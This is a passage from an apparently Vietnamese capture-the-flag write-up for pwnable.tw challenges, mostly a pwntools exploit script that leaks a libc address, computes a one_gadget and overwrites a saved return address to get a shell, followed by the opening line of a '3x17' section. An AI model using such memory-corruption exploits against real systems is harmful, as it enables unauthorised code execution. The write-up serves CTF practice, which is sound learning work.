 ```

p.sendlineafter(b'>> ',b'1')
p.sendafter(b'passowrd :',b'\x00' + b'b'*71)

p.sendlineafter(b'>> ',b'3')
p.sendafter(b'Copy :',b'a'*8)


libc_leak = bf_libc()
libc_leak = u64(libc_leak[8:].ljust(8,b'\x00'))
print(type(libc_leak))
log.info(f'libc: {hex(libc_leak)}')
libc.address = libc_leak - 0x78439
log.info(f'libc_address: {hex(libc.address)}')
one_gadget = [0x45216, 0x4526a, 0xef6c4, 0xf0567]
oneshot = libc.address + one_gadget[0]
log_out()
payload = flat(
        'a'*0x40,
        passowrd,
        'b'*0x18,
        oneshot
        )
p.sendlineafter(b'>>',b'1')
p.sendafter(b'passowrd :',payload)

log_in()
p.sendlineafter(b'>>',b'3')
p.sendafter(b'Copy :',b'a')

p.sendlineafter(b'>>',b'2')


p.interactive()
```


## 3x17


- vì file bị stripped nên nhìn khá nhức đầu 

![image](/assets/images/Pwnable.tw/43.png)
